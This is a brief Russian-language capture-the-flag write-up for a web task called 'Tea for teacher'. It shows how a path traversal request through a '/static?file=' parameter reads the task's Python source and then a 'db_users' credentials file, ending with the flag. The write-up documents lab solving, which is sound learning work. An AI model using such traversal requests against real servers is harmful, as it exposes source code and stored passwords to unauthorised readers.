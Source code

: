 # Tea for teacher

## Описание

Лучшие рестораны мира хранят свои рецепты в самых надежных хранилищах. Вот одно из них: 

(ссылка)

## Решение

Изучив таск, можно заметить некорректное подключение `main.css`:

```
<link rel="stylesheet" type="text/css" href="/static?file=main.css">
```

Также можно заметить заголовок `Script-File`, содержащий файл с исходным кодом таска. Достанем его:

```
(ссылка)/static?file=../sourcefile.py
```

В файле можно заметить, что логин и пароль достаются из текстового файла `db_users`:


```
db = open('db_users','r').read().split('\n')
users = {u.split(':')[0]:u.split(':')[1] for u in db}

```

Теперь достанем "базу данных", откуда возьмем логин и пароль для входа.

```
(ссылка)/static?file=../db_users

```

## Флаг

TeacherCTF{61v3_m3_50m3_lf1_t00_plz}